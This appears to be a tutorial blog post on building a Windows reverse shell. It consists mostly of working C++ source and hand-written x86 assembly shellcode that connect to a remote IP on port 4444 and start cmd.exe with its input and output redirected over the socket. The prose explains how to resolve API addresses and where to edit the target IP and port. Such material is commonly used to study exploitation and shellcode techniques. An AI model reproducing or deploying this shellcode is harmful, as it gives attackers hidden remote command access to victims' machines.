




Reverse Shell (STATIC)(228 bytes)
The steps in the ASM shellcode:1. Load ws2_32.dll with LoadLibrary
2. Get WSAStartUp with GetProcAddress
3. Call WSAStartUp
4. Get WSASocketA with GetProcAddress
5. Call WSASocketA
6. Get connect with GetProcAddress
7. Call connect
8. Call CreateProcessA
9. Call ExitProcess (optional)
The pseudo code of a Windows Reverse Shell:
• Initialize socket library with WSAStartup call
• Create socket
• Connect socket to a remote port
• Start cmd.exe with redirected streams
The Cpp source
Before we can use the socket library and call any of its function, we have to call the WSAStartup function. This initializes the socket library.
We can execute cmd.exe with calling CreateProcess.
STARTF_USESHOWWINDOW is necessary to hide the command window of cmd.exe.
Streams can be redirected with specifying the STARTF_USESTDHANDLES flag and setting the hStd… members of the STARTUPINFO to the socket handle.
The C++ source code:
#include "stdafx.h"
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include
#include
#pragma comment(lib,"ws2_32")
WSADATA wsaData;
SOCKET s1;
struct sockaddr_in hax;
char ip_addr[16];
STARTUPINFO sui;
PROCESS_INFORMATION pi;
int _tmain(int argc, _TCHAR* argv[])
{
WSAStartup(MAKEWORD(2, 2), &wsaData);
s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL,
(unsigned int)NULL, (unsigned int)NULL);
hax.sin_family = AF_INET;
hax.sin_port = htons(4444);
hax.sin_addr.s_addr = inet_addr("192.168.2.130");
WSAConnect(s1, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);
memset(&sui, 0, sizeof(sui));
sui.cb = sizeof(sui);
sui.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) s1;
TCHAR commandLine[256] = L"cmd.exe";
CreateProcess(NULL, commandLine, NULL, NULL, TRUE,
0, NULL, NULL, &sui, &pi);
}Copyreverseshell.cpp
Two ways of calling functions
In order to use DLL methods in shellcode, we have to determine the address of the function. There are two ways of doing this:
1. Static function callsThere is a tool called arwin.exe. This tool is an address resolution tool for Windows and determines the address of a function in a loaded DLL. The first parameter is the name of the DLL, the second parameter is the name of the function.
In Windows world, most of the functions have two forms: the ANSI and the Unicode form. The ANSI form end with A and expects ANSI parameters. The Unicode form ends with W and expects Unicode parameters. For example the two forms of the CreateProcess function are CreateProcessA and CreateProcessW.
The problem with this approach is that the address is different for each Windows version, so that if we create a shellcode for Win7, it will not work on WinXP.
2. Dynamic function callIn this approach we use two functions: LoadLibrary and GetProcAddress. LoadLibrary loads the DLL into memory and returns the base address of the DLL. We do not have to specify the full path of the DLL. In this case the function searches the DLL in predetermined locations. The .dll extension can be omitted, too. GetProcAddress calculates the offset of the function in the DLL and returns with the address of the function. These functions can be found in the kernel32.dll.
We can create version independent shellcode if we use this approach, however there is still a problem. The address of LoadLibrary and GetProcAddress still should be determined in a version independent way.
In this post I will use the second approach. I will address this latter problem in another posts.
Passing parameters to a function
If a function requires parameters, then we have to put them onto the stack, in reverse order. For example, GetProcAddress has two parameters: hModule and lpProcName. First the address of ProcName, then the hModule should be pushed onto the stack.
As we create a shellcode, we cannot use variables. If we need an address of a structure or a string as a parameter, this should also be created on the stack before we create the final structure of the parameters.
In case of GetProcAddress, First we push the ProcName onto the stack, then we push the address of the ProcName, which is actually the ESP, finally we push the hModule. The structure of the stack will be:
hModule
Address of ProcName
ProcName
The function will use the first two elements from the stack.
Sometimes the passed parameter contains a complicated structure. It might help if we create a C program and inspect the structure in memory, then we can recreate the structure in asssembly easily. STARTUPINFO and PROCESS_INFORMATION are such structures in our case.
Return value of a function
The return value, if exists, can be found in
EAX after the function call. In order to create a small shellcode, we do not check the return value most of the time.
Determine the addresses
Before we create the final shellcode, we have to determine the address of several function. First we collect information about the functions, then we use the arwin tool to get the addresses.
WSAStartup, WSASocket and connect can be found in ws2_32.dll. CreateProcess and ExitProcess can be found in kernel32.dll.
More information on these functions can be found in MSDN:
WSAStartUp,
WSASocket,
connect,
CreateProcess,
ExitProcess.
Here are the output of the arwin tool:




The steps in the shellcode:
1. Load ws2_32.dll with LoadLibrary
2. Get WSAStartUp with GetProcAddress
3. Call WSAStartUp
4. Get WSASocketA with GetProcAddress
5. Call WSASocketA
6. Get connect with GetProcAddress
7. Call connect
8. Call CreateProcessA
9. Call ExitProcess (optional)
The assembly source code of the shellcode:
global _start
section .text
_start:
; Get the windows socket dll name
xor eax, eax
mov ax, 0x3233 ; '\0\023'
push eax
push dword 0x5f327377 ; '_2sw'
push esp
; LoadLibrary
mov ebx, 0x75982864 ; LoadLibraryA(libraryname)
call ebx
mov ebp, eax ; winsocket dll handle is saved into ebp
; Get the funtion name: WSAStartUp
xor eax, eax
mov ax, 0x7075 ; '\0\0up'
push eax
push 0x74726174 ; 'trat'
push 0x53415357 ; 'SASW'
push esp
push ebp
mov ebx, 0x75981837 ; GetProcAddress(hmodule, functionname)
call ebx
; CAll WSAStartUp
xor ebx, ebx
mov bx, 0x0190
sub esp, ebx
push esp
push ebx
call eax ; WSAStartUp(MAKEWORD(2, 2), wsadata_pointer)
; Get the function name: WSASocketA
xor eax, eax
mov ax, 0x4174 ; '\0\0At'
push eax
push 0x656b636f ; 'ekco'
push 0x53415357 ; 'SASW'
push esp
push ebp
mov ebx, 0x75981837 ; GetProcAddress(hmodule, functionname)
call ebx
; Call WSASocket
xor ebx, ebx
push ebx
push ebx
push ebx
xor ecx, ecx
mov cl, 6
push ecx
inc ebx
push ebx
inc ebx
push ebx
call eax ; WSASocket(AF_INET = 2, SOCK_STREAM = 1,
; IPPROTO_TCP = 6, NULL,
; (unsigned int)NULL, (unsigned int)NULL);
xchg eax, edi ; Save the socket handle into edi
; Get the function name: connect
mov ebx, 0x74636565 ; '\0tce'
shr ebx, 8
push ebx
push 0x6e6e6f63 ; 'nnoc'
push esp
push ebp
mov ebx, 0x75981837 ; GetProcAddress(hmodule, functionname)
call ebx
; Call connect
push 0x8802a8c0 ; 0xc0, 0xa8, 0x02, 0x88 = 192.168.2.136
push word 0x5c11 ; 0x115c = port 4444
xor ebx, ebx
add bl, 2
push word bx
mov edx, esp
push byte 16
push edx
push edi
call eax ; connect(s1, (SOCKADDR*) &hax, sizeof(hax) = 16);
; Call CreateProcess with redirected streams
mov edx, 0x646d6363
shr edx, 8
push edx
mov ecx, esp
xor edx, edx
sub esp, 16
mov ebx, esp ; PROCESS_INFORMATION
push edi
push edi
push edi
push edx
push edx
xor eax, eax
inc eax
rol eax, 8
inc eax
push eax
push edx
push edx
push edx
push edx
push edx
push edx
push edx
push edx
push edx
push edx
xor eax, eax
add al, 44
push eax
mov eax, esp ; STARTUP_INFO
push ebx ; PROCESS_INFORMATION
push eax ; STARTUP_INFO
push edx
push edx
push edx
xor eax, eax
inc eax
push eax
push edx
push edx
push ecx
push edx
mov ebx, 0x75932062 ; CreateProcess(NULL, commandLine, NULL, NULL,
TRUE, 0, NULL, NULL, &sui, &pi);
call ebx
end:
xor edx, edx
push eax
mov eax, 0x75982acf ; ExitProcess(exitcode)
call eax
The last few instructions exit the process and can be omitted, because the cmd.exe will block the execution.
The remote IP and port can be specified at line 90 and 91. Notice that both the IP and port number are in reverse order.